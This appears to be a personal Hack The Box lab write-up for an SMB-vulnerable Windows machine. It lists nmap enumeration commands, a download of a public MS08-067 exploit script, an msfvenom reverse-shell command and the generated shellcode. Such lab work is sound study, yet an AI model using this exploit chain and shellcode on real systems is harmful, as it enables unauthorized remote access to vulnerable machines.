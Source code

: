 https://app.hackthebox.com/machines/2

![[Pasted image 20231105122329.png]]
![[Pasted image 20231105122402.png]]
![[Pasted image 20231105122437.png]]

```
sudo nmap -p- --open -Pn 10.129.48.82 -oN enum/ports.nmap
```

![[Pasted image 20231105122713.png]]

```
sudo nmap -p135,139,445 -sCV -Pn 10.129.48.82 -oN enum/135-139-445-services.nmap
```

![[Pasted image 20231105123139.png]]

```
smbclient -L \\\\10.129.48.82\\
```

![[Pasted image 20231105123436.png]]

```
sudo nmap -p- -sT -sV -A 10.129.48.82
```

![[Pasted image 20231105142128.png]]

```
 sudo nmap -O -Pn 10.129.48.82 -oN enum/OS.nmap
```

![[Pasted image 20231105160635.png]]

```
sudo nmap --script=smb-os-discovery -Pn 10.129.48.82
```

![[Pasted image 20231105161223.png]]

```
wget -c https://raw.githubusercontent.com/andyacer/ms08_067/master/ms08_067_2018.py
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.48.82 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

![[Pasted image 20231105161736.png]]

```
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\xc0\x15\xb5\xc6\x83\xee\xfc\xe2\xf4\x3c\xfd\x37\xc6"
"\xc0\x15\xd5\x4f\x25\x24\x75\xa2\x4b\x45\x85\x4d\x92\x19"
"\x3e\x94\xd4\x9e\xc7\xee\xcf\xa2\xff\xe0\xf1\xea\x19\xfa"
"\xa1\x69\xb7\xea\xe0\xd4\x7a\xcb\xc1\xd2\x57\x34\x92\x42"
"\x3e\x94\xd0\x9e\xff\xfa\x4b\x59\xa4\xbe\x23\x5d\xb4\x17"
"\x91\x9e\xec\xe6\xc1\xc6\x3e\x8f\xd8\xf6\x8f\x8f\x4b\x21"
"\x3e\xc7\x16\x24\x4a\x6a\x01\xda\xb8\xc7\x07\x2d\x55\xb3"
"\x36\x16\xc8\x3e\xfb\x68\x91\xb3\x24\x4d\x3e\x9e\xe4\x14"
"\x66\xa0\x4b\x19\xfe\x4d\x98\x09\xb4\x15\x4b\x11\x3e\xc7"
"\x10\x9c\xf1\xe2\xe4\x4e\xee\xa7\x99\x4f\xe4\x39\x20\x4a"
"\xea\x9c\x4b\x07\x5e\x4b\x9d\x7d\x86\xf4\xc0\x15\xdd\xb1"
"\xb3\x27\xea\x92\xa8\x59\xc2\xe0\xc7\xea\x60\x7e\x50\x14"
"\xb5\xc6\xe9\xd1\xe1\x96\xa8\x3c\x35\xad\xc0\xea\x60\x96"
"\x90\x45\xe5\x86\x90\x55\xe5\xae\x2a\x1a\x6a\x26\x3f\xc0"
"\x22\xac\xc5\x7d\xbf\x47\xf0\x47\xdd\xc4\xc0\x14\x0e\x4f"
"\x26\x7f\xa5\x90\x97\x7d\x2c\x63\xb4\x74\x4a\x13\x45\xd5"
"\xc1\xca\x3f\x5b\xbd\xb3\x2c\x7d\x45\x73\x62\x43\x4a\x13"
"\xa8\x76\xd8\xa2\xc0\x9c\x56\x91\x97\x42\x84\x30\xaa\x07"
"\xec\x90\x22\xe8\xd3\x01\x84\x31\x89\xc7\xc1\x98\xf1\xe2"
"\xd0\xd3\xb5\x82\x94\x45\xe3\x90\x96\x53\xe3\x88\x96\x43"
"\xe6\x90\xa8\x6c\x79\xf9\x46\xea\x60\x4f\x20\x5b\xe3\x80"
"\x3f\x25\xdd\xce\x47\x08\xd5\x39\x15\xae\x55\xdb\xea\x1f"
"\xdd\x60\x55\xa8\x28\x39\x15\x29\xb3\xba\xca\x95\x4e\x26"
"\xb5\x10\x0e\x81\xd3\x67\xda\xac\xc0\x46\x4a\x13"
```

```
sudo nmap --script smb-enum-shares -p445 10.129.200.70
```

![[Pasted image 20231106171631.png]]

```
sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 10.129.200.70
```

![[Pasted image 20231106171716.png]]

```
sudo nmap -p139 --script smb-protocols 10.129.200.70
```

![[Pasted image 20231106172327.png]]

```
sudo nmap -p445 --script smb-protocols 10.129.200.70
```

![[Pasted image 20231106172402.png]]

```
NT LM 0.12 (SMBv1) [dangerous, but default]
```

```
nmap --script=smb-protocols -p139,445 --open --reason -sV -Pn
nmap --script=smb-protocols -p445 --open --reason -sV -Pn
nmap --script=smb-protocols -p139 --open --reason -sV -Pn
```

![[Pasted image 20231106173003.png]]

